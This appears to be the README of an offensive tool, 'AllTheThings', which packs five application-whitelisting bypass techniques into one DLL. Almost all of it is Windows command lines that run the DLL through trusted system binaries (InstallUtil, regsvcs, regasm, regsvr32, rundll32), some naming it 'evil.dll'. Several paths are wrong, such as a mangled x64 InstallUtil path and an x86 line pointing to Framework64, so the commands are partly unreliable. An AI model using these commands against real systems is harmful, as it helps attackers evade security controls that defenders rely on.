 # AllTheThings
Includes 5 Known Application Whitelisting/ Applicaoitn Control Bypass Techiniques in One File.


Includes 5 Known Application Whitelisting/ Applicaoitn Control Bypass Techiniques in One File.
1. InstallUtil.exe

2. Regasm.exe

3. Regsvcs.exe

4. regsvr32.exe . 

5. rundll32.exe



#Usage:
##1. 
    x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll

    x64 - C:\Windows\Microsoft.NET\Framework\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
##2. 

    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll
##3. 

    x86 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

##4. 

    regsvr32 /s  /u evil.dll -->Calls DllUnregisterServer

    regsvr32 /s evil.dll --> Calls DllRegisterServer
    
##5. 

    rundll32 AllTheThings.dll,EntryPoint
